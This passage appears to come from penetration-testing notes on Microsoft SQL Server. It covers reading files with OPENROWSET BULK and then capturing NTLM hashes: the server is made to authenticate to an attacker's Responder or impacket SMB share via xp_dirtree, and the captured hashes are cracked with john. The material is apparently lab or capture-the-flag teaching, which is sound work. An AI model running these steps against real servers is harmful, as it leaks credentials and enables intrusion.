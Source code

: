 `OPENROWSET` returns a single column named `BulkColumn`. `MyFile` is a correlation name, which isn’t really important here other than it must exist, and it doesn’t really matter what I put there.

`OPENROWSET`, when used with the `BULK` provider takes a file path and one of three keywords:

- `SINGLE_BLOB` returns as a `varbinary`
- `SINGLE_CLOB` returns as a `varchar`
- `SINGLE_NCLOB` returns as a `nvarchar`

## # `Ntlm Challenge/Response` -

Get the SQL server to connect back to your host and authenticate, and capture a challenge / response that you can try to brute force.

Start [Responder](https://github.com/lgandx/Responder)  as root listening on a bunch of services for the `tun0` interface :

```bash
napster@hacky$ sudo python3 Responder.py -I tun0
...[snip]...
[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
...[snip]...
```

Now tell MSSQL to read a file on a share on your local host :

```sql
SQL (PublicUser  guest@master)> EXEC xp_dirtree '\\10.10.14.6\share', 1, 1
subdirectory   depth   file   
------------   -----   ----
```

It returns nothing, but at Responder there will be a “hash”.

---

You can also use smb server for catching the hash :

Start smb server on your Kali -

```bash
impacket-smbserver share share -smb2support
```

From victim windows machine -

```bash
exec xp_dirtree '\\10.8.0.36\share'
```

Now you can try to crack the captured hashes using john or other tool. 

---
